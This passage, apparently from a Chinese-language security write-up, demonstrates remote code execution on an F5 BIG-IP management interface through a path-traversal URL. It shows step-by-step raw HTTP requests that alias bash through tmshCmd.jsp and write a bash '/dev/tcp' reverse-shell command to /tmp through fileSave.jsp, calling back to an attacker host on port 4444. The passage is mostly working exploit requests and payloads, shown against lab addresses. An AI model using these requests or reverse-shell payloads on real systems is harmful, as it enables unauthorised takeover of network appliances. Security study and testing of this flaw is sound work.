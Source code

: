 PS:这里补充一句，当用户登录一次之后，即便是用户退出之后，我们依旧可以实施攻击，关键是要用户登录一次，这应该是服务器端的Session过期机制所致  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHPGgASZ4VGYgaMw4RSZdoOegrb4jwpunAH2hHOcJmd2d9qm4YsN1pmw/640?wx_fmt=png "")  
  
依旧执行：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHdoOu5wj2GW4SojjK2CDkE0WJ1Ms5Op9CnibplFhV4JyMv0oKBL6ye3g/640?wx_fmt=png "")  
###### 反弹shell  
  
在反弹shell时我们可以通过上述的RCE来实现，其中第二种方式可能并不适用，在这里我们要通过alias将bash设置别名为list之后实现反弹shell的操作，具体的操作流程如下：  
  
Step 1：首先，创建执行命令的模式，将list设置为bash  
```
tmshCmd.jsp?command=create+cli+alias+private+list+command+bash
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuH0lExpR1EunjPZRDzBHFre2y04bFTbHs352yVUOL4XjJ8O849FA1O0g/640?wx_fmt=png "")  
```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F


```  
  
  
Step 2：创建包含反弹shell的命令并以文本文件形式保存（这里介绍三种反弹shell的方式:bash\nc\python，其余的类似于perl、ruby等不再赘述）  
  
a、bash反弹shell  
```
fileSave.jsp?fileName=/tmp/1.txt&content=bash+-i+>%26/dev/tcp/192.168.174.131/4444+0>%261
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHlUjI4var8PicI3HK0aRy4SqCdsYWcvYob60oawacX5vZzrENzvNExBw/640?wx_fmt=png "")  
```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/1.txt&content=bash+-i+>%26/dev/tcp/192.168.174.131/4444+0>%261 HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F
```